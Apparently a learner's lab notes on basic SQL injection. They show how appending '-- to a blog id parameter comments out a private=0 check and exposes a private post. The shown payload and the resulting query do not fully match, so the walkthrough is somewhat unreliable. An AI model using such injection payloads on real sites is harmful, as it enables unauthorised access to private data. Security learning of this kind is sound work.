 
```html
https://website.thm/blog?id=1
```
- Vulnerable example This web address blog entry comes from the id parameter 

```SQL 
SELECT * from blog where id=1 and private=0 LIMIT 1;
```
- The web app may use an SQL statement that looks like the above
- Return all from the table 'blog' where the id is 1 and the private column is 0 or able to be viewed by the public and limits the results to only one match

```http
https://website.thm/blog?id=2'--
```
- Assume the above is locked as private
- adding '-- would produce the following SQL statement
```SQL
SELECT * from blog where id=2;-- and private=0 LIMIT 1;
```
- Semicolon in URL ends the the end of the SQL statement
- 2 dashes cause everything afterward to be treated as as comment
- And then runs the following
```sql
SELECT * from blog where id=2;--
```
- This returns the article with an id of 2, set to public or not
- 





